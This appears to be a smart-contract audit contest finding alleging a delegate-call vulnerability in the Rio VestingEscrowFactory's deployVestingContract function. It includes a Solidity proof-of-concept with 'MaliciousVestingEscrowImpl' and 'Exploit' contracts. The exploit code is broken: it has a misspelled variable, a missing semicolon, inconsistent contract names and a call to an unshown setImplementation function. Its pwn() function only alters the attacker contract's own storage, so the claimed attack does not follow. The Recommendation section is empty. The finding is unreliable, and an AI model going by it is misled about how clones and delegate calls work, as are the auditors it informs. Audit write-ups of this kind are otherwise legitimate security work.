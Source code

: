 Energetic Fuzzy Turkey

high

# Malicious Vesting Escrow

## Summary
Vulnerable delegate call when cloning a vesting escrow (VestingEscrowFactory) may lead to loss of funds and other unexpected behavior.

## Vulnerability Detail
`VestingEscrowFactory.sol`

https://github.com/sherlock-audit/2024-01-rio-vesting-escrow/blob/main/rio-vesting-escrow/src/VestingEscrowFactory.sol#L51

```solidity
 function deployVestingContract(
        uint256 amount,
        address recipient,
        uint40 vestingDuration,
        uint40 vestingStart,
        uint40 cliffLength,
        bool isFullyRevokable,
        bytes calldata initialDelegateParams
    ) external returns (address escrow) {
        if (vestingDuration == 0) revert INVALID_VESTING_DURATION();
        if (cliffLength > vestingDuration) revert INVALID_VESTING_CLIFF();
        if (recipient == address(0)) revert INVALID_RECIPIENT();
        if (amount == 0) revert INVALID_AMOUNT();

        // [x]
        escrow = vestingEscrowImpl.clone(
            abi.encodePacked(
                address(this), token, recipient, vestingStart, vestingStart + vestingDuration, cliffLength, amount
            )
        );

        IERC20(token).safeTransferFrom(msg.sender, escrow, amount);            // [x]
        IVestingEscrow(escrow).initialize(isFullyRevokable, initialDelegateParams); // [x]

        emit VestingEscrowCreated(msg.sender, recipient, escrow);
    }
```

New vesting contracts are created through the `deployVestingContract()` function. 
The implementation of the new vesting escrow must be safe to use in a delegate call context, as a clone is a delegate call.

### delegate call vulnerability (cloning Vesting Escrow)
The target implementation contract (VestingEscrow.sol) contain a state variables that can be manipulated in unintended ways, an attacker might exploit this behavior to modify the state of the executing contract (vesting escrow cloned contract)

The state variable `totalClaimed` in Vesting Escrow contract, can be used by the attacker to pwn / compromise the functionality of certain operations using the cloned contract.

## Impact
After changing the totalClaimed in pwn(), the attacker compromises the results of `claim()` and `unclaimed()`.

## Code Snippet
***Proof of Concept***
```solidity
contract MaliciousVestingEscrowImpl {
    uint256 public malicious_totalCalimed

    // Unintended state modification
    function maliciousTotalClaimed() external {
        malicious_totalClaimed = 1337;  
    }

}
```

```solidity
contract Exploit {
    VestingEscrowFactory public factory;
    address public vestingEscrowImpl;

    constructor(address _factory, address _vestingEscrowImpl) {
        factory = VestingEscrowFactory(_factory);
        vestingEscrowImpl = _vestingEscrowImpl;
    }

    function deployMaliciousVestingEscrow() external {
        address vestingEscrow = factory.deployVestingContract(
            100,  
            address(this),  
            10,   
            0,    
            0,   
            false, // Not fully revokable
            ""
        );

        // Replace the implementation with the malicious one
        VestingEscrow(vestingEscrow).setImplementation(MaliciousVestingEscrow(vestingEscrowImpl));
    }

    function pwn() external {
        // Trigger the unintended state modification
        MaliciousVestingEscrowImpl(vestingEscrowImpl).maliciousTotalClaimed();
    }
}
```


## Tool used

Manual Review

## Recommendation
